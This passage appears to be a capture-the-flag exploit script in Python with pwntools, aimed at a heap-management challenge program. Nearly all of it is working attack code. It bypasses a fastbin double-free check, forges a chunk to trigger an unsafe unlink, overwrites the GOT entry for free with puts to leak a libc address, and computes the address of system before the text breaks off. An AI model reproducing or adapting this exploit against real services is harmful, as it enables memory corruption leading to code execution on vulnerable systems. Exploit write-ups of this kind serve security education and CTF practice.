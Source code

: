 ```python
    r.recvuntil('Tell me your secret:')
    r.sendline(content)


keep('small', 'AAAA')
keep('big', 'BBBB') # keep big to prevent the small chunk to consolidate with top chunk
wipe('small')

# malloc secret: malloc big enough size, it will get fastbin chunk back, so it(previous small chunk) will be move into smallbin
keep('huge', 'CCCC')

# now we can free small chunk again, since it has been moved into smallbin, it will pass the check of double free
# bypass double free, then we can put this chunk back to fastbin again
# so that we won't let big chunk's previous in use bit to be set up
wipe('small') 


fake_fd = 0x6020d0-0x18
fake_bk = 0x6020d0-0x10
payload = ""
payload += p64(0x0) + p64(0x21) # fake previous size and size
payload += p64(fake_fd) + p64(fake_bk) # fake fb and bk to unlink
payload += p64(0x20) # fake previous size 
keep('small', payload)

wipe('big') # to trigger unlink

raw_input('#')

payload = ""
payload += p64(0x0) # padding
payload += p64(free_got) # big_buf
payload += p64(0x0)
payload += p64(0x6020c0) # for write arbitrary
payload += p32(1) * 3 # let us be easy to renew
renew('small', payload)

renew('big', p64(puts_plt) * 2) # hijack free to call puts, * 2 to prevent origin puts broke

payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1) * 3
renew('small', payload)

wipe('big')

x = r.recvline()
base = u64(x[:6].ljust(8,'\x00')) - libc.symbols['atoi']
print hex(base)

system = base + libc.symbols['system']

payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1) * 3
renew('small',payload)

```